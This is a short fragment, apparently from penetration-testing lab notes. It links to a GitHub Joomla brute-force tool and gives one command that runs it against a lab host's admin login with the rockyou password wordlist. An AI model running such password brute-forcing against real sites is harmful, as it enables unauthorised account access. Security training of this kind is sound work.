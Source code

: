 https://github.com/ajnik/joomla-bruteforce

```
python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/wordlists/rockyou.txt -usr admin -v
```